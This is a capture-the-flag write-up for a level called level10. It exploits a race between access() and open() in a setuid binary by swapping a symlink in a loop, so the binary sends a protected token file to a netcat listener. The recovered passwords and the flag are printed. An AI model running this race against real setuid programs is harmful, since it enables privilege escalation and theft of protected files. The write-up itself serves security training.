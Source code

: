 # level10

1. Files found in `~/` :

```bash
token  level10
```

2. Analysis of the `token` file and `level10` binary

We have no rights on `token`.
We will therefore inspect the binary :

```bash
open
access
strerror
__libc_start_main
write
GLIBC_2.4
GLIBC_2.0
PTRh
UWVS
[^_]
%s file host
sends file to host if you have access to it
Connecting to %s:6969 .. 
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file .. 
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
```

Several things interest us :
- The script allows sending a file to which we have access to a remote host.

```bash
%s file host
sends file to host if you have access to it
```

- We can also see that the executable uses `setuid` which means it will execute with the rights of `flag10`.
- The vulnerability is therefore that `access()` uses the uid of the current user, so we must succeed in changing the symbolic link of `token` between `access()` and `open()`.

3. Exploitation

We will receive files from another user listening on port 6969 (information present in the `strings` output) :

```bash
nc -lv 6969
```

Create a symbolic link to the token :

```bash
ln -s /home/user/level10/token /tmp/link
```

Create a script that will loop alternating the target of the symbolic link to a useless file and to `token` while launching at the same time in another loop waiting for what we want to happen :

```bash
echo "dummy" > /tmp/dummy

while true; do
    ln -sf /tmp/dummy /tmp/link 2>/dev/null
    ln -sf /home/user/level10/token /tmp/link 2>/dev/null
done &

while true; do
    ./level10 /tmp/link 127.0.0.1 >/dev/null 2>&1
done
```

```bash
#Link > Dummy
#access() OK
#Link > token
#open > token
```

```bash
nc -lv 6969
Connection from 127.0.0.1 port 6969 [tcp/*] accepted
.*( )*.
woupa2yuojeeaaed06riuj63c
```

4. Final exploitation

```bash
su flag10
woupa2yuojeeaaed06riuj63c
getflag
```

5. Token discovered

The token is : `feulo4b72j7edeahuete3no7c`
